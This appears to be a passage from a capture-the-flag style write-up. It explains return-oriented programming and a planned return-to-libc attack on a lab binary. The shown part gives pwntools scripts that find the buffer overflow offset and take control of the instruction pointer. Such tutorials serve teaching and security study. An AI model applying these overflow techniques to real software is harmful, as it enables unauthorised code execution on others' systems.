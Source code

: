 **TL;DR**: Return Oriented Programming works by reusing the already existing instructions in the executable, chaining them together to make them do whatever we want them to do, with some limitations, of course. We call these useful instructions `gadgets`. The name of this technique comes from that each gadget typically ends with a return instruction.

Now armed with this knowledge, let's make a new plan!

We're gonna go for a return-to-libc attack, which will allow us to execute libc functions that are not linked in the binary's PLT. The goal is to get a shell by calling `system("/bin/sh")`.

I'm using pwntools to automate this process.

### 1. Basic Buffer Overflow

First we need to find the offset to overwrite the return address on the stack. From the decompiled code, we can tell that the size of the buffer is 204 bytes, so we can give it a far longer pattern as an input, that we can recognize easily after overwriting the IP.

Fortunately we don't have to do it by hand, because pwntools has an easy way of generating a cyclic pattern. The length of the pattern is determined by the length of the buffer in this case, I like to add a good 100 bytes after the end of the buffer.

```py
from pwn import *

# set up some environmental stuff for pwntools to work properly
context.update(arch='i386', os='linux')
context.terminal = ["termite", "-e"]

p = process("./1337-application")

payload = cyclic(300)
p.sendline(payload)

p.close()
```

After running the above code, we can run `dmesg` (as sudo) to see what the IP is:
```sh
$ sudo dmesg
[...]
[249191.787815] 1337-applicatio[3195468]: segfault at 63616164 ip 0000000063616164 sp 00000000ffe49030 error 14 in libc-2.32.so[f7cee000+1d000]
[...]
```

We've successfully overwritten the IP at `0x63616164`, which we can use now to generate a padding with the proper length, using pwntools' `cyclic_find` to find the offset, and using it as an input to the `cyclic` function.

Let's try setting the IP to `0xdeadbeef`:
```py
from pwn import *

# set up some environmental stuff for pwntools to work properly
context.update(arch='i386', os='linux')
context.terminal = ["termite", "-e"]

p = process("./1337-application")

padding = cyclic(cyclic_find(0x63616164))
payload = padding + p32(0xdeadbeef)
p.sendline(payload)

p.close()
```
